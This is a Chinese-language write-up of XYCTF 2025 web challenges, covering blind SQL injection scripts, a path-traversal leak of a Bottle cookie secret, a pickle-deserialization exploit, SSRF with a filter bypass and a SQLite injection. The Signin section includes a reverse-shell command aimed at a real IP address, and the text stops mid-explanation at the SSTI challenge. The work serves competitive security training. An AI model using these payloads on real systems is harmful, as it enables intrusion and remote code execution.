# XYCTF 2025 Web Writeup


XYCTF 2025 Web Writeup

# ezsql

`fuzz`一下，测试过滤字符

```
like、逗号(,)、空格、and、|、*、union、&、-、+ 等等
```

`Union`被过滤，用盲注，逗号用 `from for`，空格用`%09`绕过，程序总共两种返回结果，302 或 `200`(账号或密码错误)



```
1' or(substr(database() from 1 for 1))='a'%23
1'%09or(substr(database()%09from%091%09for%091))='a'%23
```


编写脚本

```
import requests
import string

fuzz = "-{}_," + string.ascii_lowercase + string.digits
url = "http://gz.imxbt.cn:20076/login.php"
a = 1
b = ""
headers = {"Content-Type" : "application/x-www-form-urlencoded"}

while(True):
    for i in fuzz:
        # data = f"username=1'%09or(substr(database()%09from%09{a}%09for%091))='{i}'%23&password=1" #testdb
        # data = f"username=1'%09or(substr((select%09group_concat(schema_name)%09from%09information_schema.schemata)%09from%09{a}%09for%091))='{i}'%23&password=1" #information_schema, mysql, testdb, systest, performance_schema
        # data = f"username=1'%09or(substr((select%09group_concat(table_name)%09from%09information_schema.tables%09where%09table_schema=database())%09from%09{a}%09for%091))='{i}'%23&password=1" # double_check, user
        # data = f"username=1'%09or(substr((select%09group_concat(column_name)%09from%09information_schema.columns%09where%09table_name='double_check')%09from%09{a}%09for%091))='{i}'%23&password=1" # secret
        data = f"username=1'%09or(substr((select%09group_concat(secret)%09from%09testdb.double_check)%09from%09{a}%09for%091))='{i}'%23&password=1" #dtfrtkcc0czkoua9s
        result = requests.post(url=url, data=data, headers=headers, proxies={"http":"http://127.0.0.1:8080"})

        if "帐号或密码错误" in result.text:
            pass
        elif "检测到非法输入,已阻断!" in result.text:
            pass
        else:
            b+=i
            print(b)
    a+=1
```


输入注出的密钥


进去是一个无回显命令执行接口



过滤空格，`$IFS`绕过


```
ls$IFS/>1.txt
cat$IFS/flag.txt>2.txt
```



# Signin 


下载附件，源码如下
```
# -*- encoding: utf-8 -*-
'''
@File    :   main.py
@Time    :   2025/03/28 22:20:49
@Author  :   LamentXU 
'''
'''
flag in /flag_{uuid4}
'''
from bottle import Bottle, request, response, redirect, static_file, run, route
with open('../../secret.txt', 'r') as f:
    secret = f.read()

app = Bottle()``
@route('/')
def index():
    return '''HI'''

@route('/download')
def download():
    name = request.query.filename
    if '../../' in name or name.startswith('/'  ) or name.startswith('../') or '\\' in name:
        response.status = 403
        return 'Forbidden'
    with open(name, 'rb') as f:
        data = f.read()
    return data

@route('/secret')
def secret_page():
    try:
        session = request.get_cookie("name", secret=secret)
        if not session or session["name"] == "guest":
            session = {"name": "guest"}
            response.set_cookie("name", session, secret=secret)
            return 'Forbidden!'
        if session["name"] == "admin":
            return 'The secret has been deleted!'
    except:
        return "Error!"
run(host='0.0.0.0', port=8080, debug=False)
```


程序基于 `Bottle` 框架搭建 `Web` 服务，访问根目录回显 HI。`/download`路由提供了文件读取功能，`/secret`基于 `Cookie` 验证权限，返回不同的内容

```
@route('/download')
def download():
    name = request.query.filename
    if '../../' in name or name.startswith('/'  ) or name.startswith('../') or '\\' in name:
        response.status = 403
        return 'Forbidden'
    with open(name, 'rb') as f:
        data = f.read()
    return data
```


顺着代码意思，我们先尝试拿到`admin`。`cookie` 加密密钥在 `../../secret.txt`，需要绕过过滤读取文件，先读取 `app.py`试试

```
http://eci-2zec3yt2vvpqcvovokx3.cloudeci1.ichunqiu.com:5000/download?filename=app.py
```



通过`./../`组合绕过，拿到密钥

```
http://eci-2zec3yt2vvpqcvovokx3.cloudeci1.ichunqiu.com:5000/download?filename=./.././../secret.txt

//secret = Hell0_H@cker_Y0u_A3r_Sm@r7
```



本地生成密钥，拿到 `admin`的 `Cookie` 

```
name="!Q2i4b0GcN4AM+eI0/Br6YuNIftiqf3hm53bC67S2HUM=?gAWVGQAAAAAAAABdlCiMBG5hbWWUfZRoAYwFYWRtaW6Uc2Uu"
```

发现什么内容都没有



`bottle` 框架的 `bottle.response.set_cookie()`会在解码 `cookie` 的时候使用 `pickle.loads`，这存在着 `pickle` 反序列化漏洞
构造 EXP：

```
from bottle import route, run,response
import os

secret = "Hell0_H@cker_Y0u_A3r_Sm@r7"

class exp():
    def __reduce__(self):
	    cmd = "bash -c 'bash -i >& /dev/tcp/60.204.244.254/29998 0>&1'"
        # cmd = "cat /flag_* > /1.txt"
        return (os.system, (cmd,))

@route("/secret")
def index():
    try:
        session = exp()
        response.set_cookie("name", session, secret=secret)
        return "success"
    except:
        return "fail"

if __name__ == "__main__":
    os.chdir(os.path.dirname(__file__))
    run(host="0.0.0.0", port=80)
```


本地测试反弹 `Shell`，生成恶意 `Cookie` 并发包

```
name="!KvRmcP+G2n6yLDFEBXLFhV9EXo3aOfX8QRjhmOu2Cug=?gAWVXQAAAAAAAABdlCiMBG5hbWWUjAVwb3NpeJSMBnN5c3RlbZSTlIw3YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC82MC4yMDQuMjQ0LjI1NC8yOTk5OCAwPiYxJ5SFlFKUZS4="
```


成功接收到 `Shell`



拿 `Payload`打远程，返回了 `Error!`，程序执行报错，猜测可能是靶机不出网



这样外带也是不行的，那就读取 `FLAG` 并写入文件，再使用前面的任意文件读取功能读取 `FLAG`

```
//cat /flag_* > /1.txt
name="!DEJ3Dr2+czUpR5X5pDZrpuhtvN4Cl/Alz/leGAxtaHA=?gAWVOgAAAAAAAABdlCiMBG5hbWWUjAVwb3NpeJSMBnN5c3RlbZSTlIwUY2F0IC9mbGFnXyogPiAvMS50eHSUhZRSlGUu"
```


拿到 `FLAG`



# ez_puzzle

一个拼图，两秒内拼完弹 `FLAG`



将其添加至忽略已继续调试



和时间有关，全局搜索`time`，发现 `endTime、startTime`两个变量



仅能查到 `startTime`，显然 `endTime`是在拼完图后赋值的



猜测程序是对这两个变量作差，即 `endTime - startTime`，因为要比较是否在两秒内拼完，如果将`startTime`为无限大，相减为负就能小于 2 秒



拼完图即可



# fate

源码如下
```
#!/usr/bin/env python3
import flask
import sqlite3
import requests
import string
import json

app = flask.Flask(__name__)
blacklist = string.ascii_letters
def binary_to_string(binary_string):
    if len(binary_string) % 8 != 0:
        raise ValueError("Binary string length must be a multiple of 8")
    binary_chunks = [binary_string[i:i+8] for i in range(0, len(binary_string), 8)]
    string_output = ''.join(chr(int(chunk, 2)) for chunk in binary_chunks)
    return string_output

@app.route('/proxy', methods=['GET']) #代理转发
def nolettersproxy():
    url = flask.request.args.get('url')
    if not url: #如果没有传参则跳出异常
        return flask.abort(400, 'No URL provided')
    
    target_url = "http://lamentxu.top" + url
    for i in blacklist:
        if i in url: #如果传参带有大小写字母则跳出异常
            return flask.abort(403, 'I blacklist the whole alphabet, hiahiahiahiahiahiahia~~~~~~')
    if "." in url: #禁止传参.
        return flask.abort(403, 'No ssrf allowed')
    response = requests.get(target_url)

    return flask.Response(response.content, response.status_code)

def db_search(code): #执行数据库查询, 传参可控
    with sqlite3.connect('database.db') as conn:
        cur = conn.cursor()
        cur.execute(f"SELECT FATE FROM FATETABLE WHERE NAME=UPPER(UPPER(UPPER(UPPER(UPPER(UPPER(UPPER('{code}')))))))")
        found = cur.fetchone()
    return None if found is None else found[0]

@app.route('/')
def index():
    print(flask.request.remote_addr)
    return flask.render_template("index.html")

@app.route('/1337', methods=['GET'])
def api_search():
    if flask.request.remote_addr == '127.0.0.1': #判断请求ip是否为本地
        code = flask.request.args.get('0')
        if code == 'abcdefghi': #需要code=abcdefghi
            req = flask.request.args.get('1')
            try:
                req = binary_to_string(req)
                print(req)
                req = json.loads(req) # No one can hack it, right? Pickle unserialize is not secure, but json is ;)
            except:
                flask.abort(400, "Invalid JSON")
            if 'name' not in req:
                flask.abort(400, "Empty Person's name")

            name = req['name'] #小waf, name不能大于6, 不能包含 \', 不能包含 )
            if len(name) > 6:
                flask.abort(400, "Too long")
            if '\'' in name:
                flask.abort(400, "NO '")
            if ')' in name:
                flask.abort(400, "NO )")
            """
            Some waf hidden here ;)
            """

            fate = db_search(name)
            if fate is None:
                flask.abort(404, "No such Person")

            return {'Fate': fate}
        else:
            flask.abort(400, "Hello local, and hello hacker")
    else:
        flask.abort(403, "Only local access allowed")

if __name__ == '__main__':
    app.run(debug=True, host='0.0.0.0', port=8080)
```


两个关键路由， 通过 `proxy`路由代理转发，请求 `1337`路由实现 `SQLITE` 注入
通过 `proxy`路由代理转发时参值不能含有字母和点，这里通过 `@`绕过加进制转换绕过，`@`是虚拟域名，在浏览器输入后，浏览器会识别`@`后面的域名

```
@app.route('/proxy', methods=['GET']) #代理转发
def nolettersproxy():
    url = flask.request.args.get('url')
    if not url:
        return flask.abort(400, 'No URL provided')

    target_url = "http://lamentxu.top" + url
    for i in blacklist:
        if i in url:
            return flask.abort(403, 'I blacklist the whole alphabet, hiahiahiahiahiahiahia~~~~~~')
    if "." in url: #禁止传参.
        return flask.abort(403, 'No ssrf allowed')
    response = requests.get(target_url)

def db_search(code):
    ...
        cur.execute(f"SELECT FATE FROM FATETABLE WHERE NAME=UPPER(UPPER(UPPER(UPPER(UPPER(UPPER(UPPER('{code}')))))))")

@app.route('/1337', methods=['GET'])
def api_search():
    if flask.request.remote_addr == '127.0.0.1':
	    ...
        if code == 'abcdefghi':
		    ...
            fate = db_search(name)
```


回显 `Hello local, and hello hacker`，成功

```
http://IP:8080/proxy?url=@2130706433:8080/1337
```



然后需要传入 `abcdefghi`，没法再使用进制绕过字母 `waf`，利用 `Flask` 解码特性，内外层 `URL` 编码绕过。

```
http://192.168.137.139:8080/proxy?url=@2130706433:8080/1337?0=abcdefghi&=1

http://192.168.137.139:8080/proxy?url=%40%32%31%33%30%37%30%36%34%33%33%3a%38%30%38%30%2f%31%33%33%37%3f%30%3d%25%36%31%25%36%32%25%36%33%25%36%34%25%36%35%25%36%36%25%36%37%25%36%38%25%36%39%26%31%3d
```



`1`的参值会被丢入 `binary_to_string`函数里去，该函数将参值分为8个一组挨个取出并二进制解码，然后拼接返回

```
def binary_to_string(binary_string):
    if len(binary_string) % 8 != 0:
        raise ValueError("Binary string length must be a multiple of 8")
    binary_chunks = [binary_string[i:i+8] for i in range(0, len(binary_string), 8)]
    string_output = ''.join(chr(int(chunk, 2)) for chunk in binary_chunks)
    return string_output
```


根据 `binary_to_string`函数写一个加密段

```
def binary_to_string(binary_string):
    if len(binary_string) % 8 != 0:
        raise ValueError("Binary string length must be a multiple of 8")
    binary_chunks = [binary_string[i:i+8] for i in range(0, len(binary_string), 8)]
    string_output = ''.join(chr(int(chunk, 2)) for chunk in binary_chunks)
    return string_output

req = '{"name":"test"}'
binary_string = ''.join(format(ord(c), '08b') for c in req)

print(binary_string)
//011110110010001001101110011000010110110101100101001000100011101000100010011101000110010101110011011101000010001001111101
```


成功进入 `db_search`函数

```
http://192.168.137.139:8080/proxy?url=%40%32%31%33%30%37%30%36%34%33%33%3a%38%30%38%30%2f%31%33%33%37%3f%30%3d%25%36%31%25%36%32%25%36%33%25%36%34%25%36%35%25%36%36%25%36%37%25%36%38%25%36%39%26%31%3d011110110010001001101110011000010110110101100101001000100011101000100010011101000110010101110011011101000010001001111101
```



接下来 SQL 注入，在 `init_db.py`中发现 `flag`在`FATETABLE`库`Fate`表中

```
#init_db.py
import sqlite3

conn = sqlite3.connect("database.db")
conn.execute("""CREATE TABLE FATETABLE (
  NAME TEXT NOT NULL,
  FATE TEXT NOT NULL
);""")
Fate = [
    ('JOHN', '1994-2030 Dead in a car accident'),
    ('JANE', '1990-2025 Lost in a fire'),
    ('SARAH', '1982-2017 Fired by a government official'),
    ('DANIEL', '1978-2013 Murdered by a police officer'),
    ('LUKE', '1974-2010 Assassinated by a military officer'),
    ('KAREN', '1970-2006 Fallen from a cliff'),
    ('BRIAN', '1966-2002 Drowned in a river'),
    ('ANNA', '1962-1998 Killed by a bomb'),
    ('JACOB', '1954-1990 Lost in a plane crash'),
    ('LAMENTXU', r'2024 Send you a flag flag{FAKE}')
]
conn.executemany("INSERT INTO FATETABLE VALUES (?, ?)", Fate)

conn.commit()
conn.close()
```


并且我们需要绕过这段 `WAF`

```
if len(name) > 6:
	flask.abort(400, "Too long")
if '\'' in name:
	flask.abort(400, "NO '")
if ')' in name:
	flask.abort(400, "NO )")
```


这需要利用 `Python` 格式化字符串漏洞，在 `python` 中使用 `f-string` 直接传入非字符串参数时，会被强转为字符串并完整填入。这使得我们可以传入一个非字符串的值，如列表、字典，从而绕过前面的 `WAF` 检测，然后在 SQL 执行中被转换
构造 `Payload`

```
req = """{"name":{"'))))))) UNION SELECT FATE FROM FATETABLE--":"1"}}"""
```



```
req = """{"name":{"'))))))) UNION SELECT FATE FROM FATETABLE where NAME='LAMENTXU'--":"1"}}"""

http://ip:8080/proxy?url=%402130706433%3a8080%2f1337%3f0%3d%2561%2562%2563%2564%2565%2566%2567%2568%2569%261%3d01111011001000100110111001100001011011010110010100100010001110100111101100100010001001110010100100101001001010010010100100101001001010010010100100100000010101010100111001001001010011110100111000100000010100110100010101001100010001010100001101010100001000000100011001000001010101000100010100100000010001100101001001001111010011010010000001000110010000010101010001000101010101000100000101000010010011000100010100100000011101110110100001100101011100100110010100100000010011100100000101001101010001010011110100100111010011000100000101001101010001010100111001010100010110000101010100100111001011010010110100100010001110100010001000110001001000100111110101111101
```



# 出题人已疯

源码如下
```
# -*- encoding: utf-8 -*-
'''
@File    :   app.py
@Time    :   2025/03/29 15:52:17
@Author  :   LamentXU 
'''
import bottle
'''
flag in /flag
'''
@bottle.route('/')
def index():
    return 'Hello, World!'
@bottle.route('/attack')
def attack():
    payload = bottle.request.query.get('payload')
    if payload and len(payload) < 25 and 'open' not in payload and '\\' not in payload:
        return bottle.template('hello '+payload)
    else:
        bottle.abort(400, 'Invalid payload')
if __name__ == '__main__':
    bottle.run(host='0.0.0.0', port=5000)
```


很明显的 `Bottle SSTI`模板注入，由于 `bottle.template`会将输入与 `hello`字符拼接，为了正确解析并执行 `Python` 代码，需要加上 `\n`
